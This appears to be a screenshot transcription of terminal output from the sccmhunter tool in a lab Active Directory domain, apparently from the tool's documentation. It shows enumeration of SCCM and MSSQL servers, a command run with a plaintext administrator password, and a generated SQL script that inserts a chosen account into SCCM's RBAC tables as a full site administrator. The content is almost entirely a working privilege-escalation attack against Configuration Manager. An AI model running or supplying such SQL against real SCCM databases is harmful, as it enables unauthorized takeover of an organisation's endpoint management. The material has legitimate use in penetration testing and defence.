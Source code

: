 ```
                       +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+                                                                                                                                          
                       

[04:24:52 PM] INFO     [+] Finished profiling all discovered computers.                                                                                                                                                                           
[04:24:52 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+                                                                     
                       | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |                                                                     
                       +=========================+============+=================+==============+===================+=====================+===============+========+=========+                                                                                                                                     
                       | sql.internal.lab        | None       | False           | False        | False             | False               | False         | False  | True    |                                                                     
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+                                                                     
                       | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |                                                                     
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+  
```

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/sccmhunter]
└─# python3 sccmhunter.py mssql -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -tu specter -sc LAB

                                                                                          (
                                    888                         d8                         \
 dP"Y  e88'888  e88'888 888 888 8e  888 ee  8888 8888 888 8e   d88    ,e e,  888,8,        )
C88b  d888  '8 d888  '8 888 888 88b 888 88b 8888 8888 888 88b d88888 d88 88b 888 "    ##-------->
 Y88D Y888   , Y888   , 888 888 888 888 888 Y888 888P 888 888  888   888   , 888           )
d,dP   "88,e8'  "88,e8' 888 888 888 888 888  "88 88"  888 888  888    "YeeP" 888          /
                                                                                         (
                                                                 v0.0.2                   
                                                                 @garrfoster                    
    
    
    
[04:20:44 PM] INFO     [*] Resolving specter SID...                                                                                              
[04:20:44 PM] INFO     [*] Converted specter SID to 0x010500000000000515000000010A878E28A377F8F541F39A6D040000                                   
[04:20:44 PM] INFO     [*] Use the following to add specter as a Site Server Admin.                                                              

USE CM_LAB; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000010A878E28A377F8F541F39A6D040000,'lab\specter',0,0,'','','','','LAB');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00004','1');
```